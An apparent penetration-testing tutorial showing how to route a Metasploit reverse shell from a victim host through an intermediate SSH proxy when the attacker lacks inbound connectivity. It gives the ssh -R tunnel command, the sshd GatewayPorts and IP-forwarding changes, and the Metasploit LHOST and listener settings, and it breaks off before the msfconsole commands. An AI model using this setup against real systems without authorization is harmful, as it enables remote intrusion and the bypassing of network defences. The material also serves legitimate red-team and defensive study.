

# Reverse shell from behind a firewall using an intermediate SSH host

## Scenario
The following describes overcoming a scenario where your Metasploit instance does not have inbound connectivity for a reverse shell on a target machine to connect to. It assumes you cannot use a bind shell on the victim as an alternative.

The attacking machine could be hosted in a private network, behind a firewall with NAT or even connected to the Tor network with only outbound connectivity possible.


The payload used for the reverse shell can be anything desired from Metasploit's suite of reverse payloads.

## Setup
The prerequisite is you have access to a secondary host which the target victim host will connect to on successful exploitation. In this example we will be using the SSH protocol to proxy the connections.

Take note of the direction of the arrows in the following diagram. The attacking host (192.168.0.1) can establish a connection to the proxy host (10.0.0.1) and can also reach victim host (172.16.0.1). The vicim host can connect to the proxy host -


Before exploitation, a reverse SSH tunnel is established from the attacking host to the proxy host by invoking the ssh client with the `-R` switch. Connections are forwarded to localhost. In this example, port 4444 is used for both the local and remote bind port -

```bash
ssh -f -N -T user@10.0.0.1 -R 4444:127.0.0.1:4444
```


By default, SSHD will listen to the loopback interface only on the remote host. We want to allow external connectivity to port 4444 on our proxy host so our victim host can connect. Configure `GatewayPorts yes` in `/etc/ssh/sshd_config` on the SSH proxy so the socket listens on 0.0.0.0. You can verify this is working (i.e 0.0.0.0) -

``` bash
$ netstat -tan | grep 4444
tcp        0      0 0.0.0.0:4444           0.0.0.0:*               LISTEN     
tcp6       0      0 :::4444                :::*                    LISTEN     
```

Note: Ensure IPv4 forwarding is enabled on the SSH proxy, i.e.  
`sysctl -w net.ipv4.ip_forward=1` and the firewall rules on the permits inbound traffic on port 4444.

Now everything is setup, the exploit is triggered from Metasploit, invoking a reverse shell payload on the victim host. The victim host establishes a connection to the proxy host, rather then the attacking machine -


As there is a reverse tunnel bound to port 4444, the victim's reverse shell will effectively be proxied to the attacker over the reverse SSH tunnel. We then obtain a reverse shell -


There are two settings that must be configured in Metasploit for this to work -

1. Set LHOST to the IP address of the SSH proxy server, otherwise the payload executed on the victim will attempt to connect to the non-routable IP address bound to the attacker host (192.168.0.1)

2. By default Metasploit will bind to interface address specified by LHOST. Configure reverse listener to bind to the loopback address or all interfaces with `ReverseListenerBindAddress 0.0.0.0`

## Example
Recapping and putting this all together with an example payload -

1) On the attacking machine, connect to the SSH proxy and create a reverse tunnel -

```
# ssh -f -N -T user@10.0.0.1 -R 4444:127.0.0.1:4444
```

2) Open msfconsole and configure and execute -  


